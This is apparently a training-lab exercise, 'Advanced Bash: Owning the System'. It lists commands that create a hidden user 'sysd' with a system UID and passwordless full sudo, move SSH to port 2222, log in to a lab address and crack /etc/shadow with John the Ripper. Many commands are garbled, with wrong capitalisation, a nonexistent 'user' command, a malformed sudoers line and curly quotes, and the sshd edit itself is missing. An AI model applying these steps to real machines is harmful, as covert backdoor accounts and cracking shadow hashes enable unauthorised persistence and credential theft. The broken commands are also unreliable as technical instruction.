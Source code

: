 
# **Advanced Bash: Owning the System**

_____


## Step 1: Shadow People

### 1.**Create a secret user named sysd. Make sure this user doesn't have a home folder created**.

    user -rMo -u 600 sysd


### 2.**Give your secret user a password**. 

    Passwd sysd


### 3.**Give your secret user a system UID < 1000**.

    Usermod -u 600 sysd


### 4.**Give your secret user the same GID**.

    Groupmod -g 600 sysd


### 5.**Give your secret user full sudo access without the need for a password**.

    Visudo sys ALL=(ALL:ALL) NOPASSWD:ALL


### 6.**Test that sudo access works without your password**.

    Cat /etc/sudoers | grep -i sysd | awk ‘{ print $3 }’



## *Step 2: Smooth Sailing*

### 1.**Edit the sshd_config file**.

    Sudo nano /etc/ssh/sshd_config



## *Step 3: Testing Your Configuration Update* 

### 1.**Restart the SSH service**.

    Systemctl restart ssh.service 


### 2.**Exit the root account**.

    exit


### 3.**SSH to the target machine using your sysd account and port 2222**.

    Ssh sysd@192.168.6.105 -p 2222


### 4.**Use sudo to switch to the root user**.

    Sudo -s



## *Step 4: Crack All the Passwords*

### 1.**SSH back to the system using your sysd account and port 2222**.

    Ssh sysd@192.168.6.105 -p 2222


### 2.**Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file**.

    John password.txt